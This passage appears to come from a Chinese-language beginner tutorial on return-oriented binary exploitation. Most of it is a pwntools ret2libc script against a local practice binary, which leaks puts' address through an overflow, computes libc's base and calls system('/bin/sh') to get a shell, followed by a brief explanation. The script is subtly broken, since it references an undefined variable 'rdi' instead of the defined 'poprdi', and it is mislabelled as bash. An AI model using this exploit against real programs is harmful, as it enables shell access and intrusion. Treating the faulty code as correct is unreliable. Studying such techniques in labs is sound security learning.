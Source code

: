 脚本：

```bash
from pwn import*

io = process('./text')
libc=ELF('./libc.so.6')
puts_adr=0x401060
puts_got=0x404018
poprdi=0x401273
ret=0x40101a
main=0x4011BD
payload1 = b'a'*(0x10+8)+p64(rdi)+p64(puts_got)+p64(puts_adr)+p64(main)
io.sendline(payload1)
puts_real_addr=u64(io.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_real_addr - libc.sym["puts"]
system = libc_base + libc.symbols['system']
binsh = libc_base+next(libc.search(b"/bin/sh\x00"))
payload2 = b'a'*(0x10+8)+p64(ret)+p64(rdi)+p64(binsh)+p64(system)
io.sendline(payload2)
io.interactive()
```

脚本解析：

通过 pwntools 中的 ELF 模块解析 libc 文件，结合 recv 模块接收泄露出的 puts 函数真实地址得到 libc 基地址，从而能在 libc 中找出 system 函数和 binsh 字符串的真实地址，再通过劫持返回地址以及参数即可执行 system("/bin/sh")

## 总结

ret2 系列之一讲解了 ret2 系列中的 4 个基础的劫持方法，虽然他们方法简单，但是危害是十分巨大的，希望对初入二进制漏洞利用学习的师傅们有帮助
